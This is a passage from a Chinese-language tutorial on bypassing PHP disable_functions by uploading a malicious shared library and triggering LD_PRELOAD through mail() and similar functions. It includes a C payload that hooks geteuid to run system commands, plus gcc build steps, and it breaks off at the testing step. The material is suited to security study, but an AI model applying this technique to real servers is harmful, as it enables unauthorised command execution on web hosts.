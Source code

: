 执行成功！

**LD_PRELOAD 作为进程独占环境变量，它与待执行命令间必须为空白字符**

如果 `mail()` 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`（如果 PHP 开启了 imap 模块）


如何利用：

1. 编写`bypass_disablefunc.php`和`bypass_disablefunc.so`,并上传到目标服务器

2. 编写一个自己的动态链接程序，`test.c`:

```c
#include<stdlib.h>
#include <stdio.h>
#include<string.h>

void payload(){
         FILE*fp = fopen("/tmp/2.txt","w");
         fclose(fp);
         system("mkdir /var/www/html/test");
 }
int geteuid(){
  FILE *fp1=fopen("/tmp/2.txt","r");
  if(fp1!=NULL)
  {
   fclose(fp1);
         return 552;
        }else {
         payload();
         return 552;
       }
}

//各种payload都一个意思
```

3. 当这个共享库中的`geteuid`被调用时，尝试加载`payload()`函数，执行命令，在`/var/www/html`目录下创建一个名字为`test`的文件。并编译so文件

```bash
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
```

![](img/1.png)

4. 我们把`test.so`放到WEB目录，然后编写一个PHP文件进行测试：
